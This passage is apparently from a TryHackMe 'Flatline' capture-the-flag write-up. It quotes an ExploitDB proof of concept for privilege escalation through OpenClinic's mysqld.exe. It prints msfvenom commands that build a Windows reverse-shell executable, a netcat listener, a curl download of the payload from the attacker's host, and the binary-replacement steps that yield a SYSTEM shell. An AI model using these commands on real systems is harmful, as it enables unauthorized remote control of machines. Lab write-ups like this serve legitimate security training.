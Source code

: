```tsx
09/11/2021  08:30    <DIR>          tomcat8
09/11/2021  08:29    <DIR>          Uninstall
09/11/2021  08:18         1,389,568 uninstall.exe
               7 File(s)      1,845,973 bytes
               6 Dir(s)  49,987,264,512 bytes free
```

Research from [ExploitDB](https://www.exploit-db.com/exploits/50448) to figure out this PoC 

```
																# Proof of Concept

1. Generate malicious .exe on attacking machine
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.102 LPORT=4242 -f exe > /var/www/html/mysqld_evil.exe

2. Setup listener and ensure apache is running on attacking machine
    nc -lvp 4242
    service apache2 start

3. Download malicious .exe on victim machine
    type on cmd: curl http://192.168.1.102/mysqld_evil.exe -o "C:\projects\openclinic\mariadb\bin\mysqld_evil.exe"

4. Overwrite file and copy malicious .exe.
    Renename C:\projects\openclinic\mariadb\bin\mysqld.exe > mysqld.bak
    Rename downloaded 'mysqld_evil.exe' file in mysqld.exe

5. Restart victim machine

6. Reverse Shell on attacking machine opens
    C:\Windows\system32>whoami
    whoami
    nt authority\system
```

The above PoC shows manual steps to exploit the target machine through `openclinic` folder and the `mysqld.exe` file

Create another payload with `msfvenom` 

```tsx
┌──(kali㉿kali)-[~/TryHackMe/Flatline]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.8.97.213 LPORT=4242 -f exe > msqld_evil.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

Upload the payload to the target machine and rename it to `mysqld.exe` (remember to change the original `mysqld.exe` to another file such as `mysqld.bak` to avoid the conflict)
